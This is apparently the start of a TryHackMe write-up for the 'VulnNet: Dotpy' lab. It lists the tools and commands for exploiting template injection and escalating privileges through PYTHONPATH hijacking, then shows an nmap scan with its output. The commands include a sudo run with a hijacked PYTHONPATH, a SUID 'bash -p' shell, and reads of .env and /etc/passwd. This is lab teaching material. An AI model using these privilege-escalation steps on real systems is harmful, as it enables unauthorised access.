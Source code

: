 # TryHackMe-VulnNet: Dotpy

**Scope:**

- Server-Side Template Injection (SSTI)
- Server-Side Template Injection (SSTI)

**Keywords:**

- Server-Side Template Injection (SSTI)
- Remote Code Execution (RCE)
- python
- pip
- PYTHONPATH Manipulation

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`
- `flask-unsign --decode --cookie '.eJwlzk1qAzEMBeC7eN2FLFuynMsM-jMJhRZmklXp3ePSpR56j--nHOvM615uz_OVH-V4RLkVJIVIc481K2dA81GNEXsdpNNG7b6mO7QYHpghJJKLO0uzRhqhskv7jWxk8BTRjjqGmrcE7L4Hl_kMRaIVNBWTWmPQLjygbMjryvNfU_fp17mO5_dnfu1A_3SggLiIuDUjNciagjy78bTYBgAtv293_UAV.Z25eBg.vjMPDBQCeZnSBrtx7gEWiyM24mE'`

**System Commands:**

- `sudo PYTHONPATH=/tmp/pip-jf81agq4-build /usr/bin/python3 /opt/backup.py`
- `ls -lhsa /bin/bash`
- `/bin/bash -p`
- `getent group system-adm`
- `SHELL=/bin/bash script -q /dev/null`
- `export TERM=xterm`
- `sudo -l`
- `cat .env`
- `ss -tulwn`
- `grep -e \/sh -e bash /etc/passwd`

### Laboratory Environment

[VulnNet: dotpy](https://tryhackme.com/r/room/vulnnetdotpy)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```powershell
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://vulnnet.thm:8080/login
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
```

> **HTTP Port Check**
> 
